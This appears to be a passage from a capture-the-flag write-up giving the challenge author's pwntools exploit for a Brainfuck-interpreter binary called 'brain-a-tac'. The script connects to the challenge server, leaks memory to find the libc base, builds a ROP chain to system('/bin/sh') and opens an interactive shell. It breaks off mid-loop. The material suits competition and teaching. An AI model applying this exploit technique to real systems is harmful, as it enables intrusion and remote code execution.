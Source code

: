 #### The exploit developer's solution (White)

Simply run it and you get a shell. You can change which line is commented to run a local process instead.

```python
from pwn import *
context.binary = exe = ELF('./bf_patched')
libc = exe.libc


#p = process([exe.path, ">,[[>],[<]>-]-[>]-[<.+]++++++++++."])
p = remote("brain-a-tac.chals.damctf.xyz", 31337)

def real_send(bv: bytes):
    p.send(bv)
    if bv != b'\x00':
        p.send(bv)
        p.send(bv)

def stop_reading(bv = b'1'):
    p.send(bv)
    p.send(b'\x00')

p.send(b'\xff\x00' * 0x2b)
p.send(b'\x01\x00\x04\x01\x00\x41\x07\x01\x01\x04\x00\x00\x01\x03\x00\x01\x00\x04\x00\x00\x00\x08\x01\x04\x00\x07\x00\x05\x04\x00\x08\x01\x00\x01\x01\x01')
sleep(1)
p.recv(0xc)
p.send(b'\x00')


mem = bytearray(0x300)

idx = 0xa4
while idx != 0:
    recvd = p.recv(1)
    print(recvd)
    mem[idx] = u8(recvd)
    if idx == 0x27e:
        # we are writing the ip
        p.send(b'\x03')
    elif idx == 0x290:
        real_send(b'\x34')
    elif idx == 0x290 + 8:
        libc.address = u64(mem[0x290:0x290+8]) - libc.symbols['__libc_start_call_main'] - 120
        print(hex(libc.address))
        rop = ROP(libc)
        rop.system(next(libc.search(b'/bin/sh\0')))

        payload = rop.chain()

        for i in payload:
            real_send(bytes([i]))
        
        stop_reading()
        p.interactive()
        exit()
    else:
        real_send(recvd)
    
    if idx == 0x2:
        real_send(bytes([mem[0x27e:0x27e+8][(idx-0x27e)%8]]))
    if idx == 0x2ff:
```